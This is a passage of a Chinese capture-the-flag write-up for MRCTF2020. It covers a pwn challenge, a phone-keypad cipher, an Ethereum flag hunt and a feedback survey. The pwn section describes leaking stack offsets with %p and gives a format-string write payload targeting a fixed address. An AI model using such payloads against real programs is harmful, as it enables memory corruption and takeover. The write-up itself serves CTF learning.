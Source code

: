 先python爆破了下这个算式的答案，应该是2，我们修改为2就好了，存在格式化字符串漏洞， 就直接输入`'aa%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,'`查了下偏移，应该是会有一个'a' 在前面占格， 然后便宜到后面第二个就是8

```python
payload = 'a' + 'a%9$naaa' + p64(0x60105C) 
```

前面一个'a' 占格，然后是`%9$n`， 后面几个a也是占格，接上地址，ok。

# crypto

## keyboard

打开以后看到数字。之前看到过一个多重的加密的帖子，恰好里面第一重就是这个，

就直接对着手机九键写就好了，

#  Ethereum

## SimpleReveal

emmm这个说是简单题，进去以后找找，能够在最后面那个没有红色叹号里面找到flag，

#  Feedback

## MRCTF2020问卷调查

就点击进入链接，

反馈和最后几个框：" 出题人最强！"

得到flag。

>   逃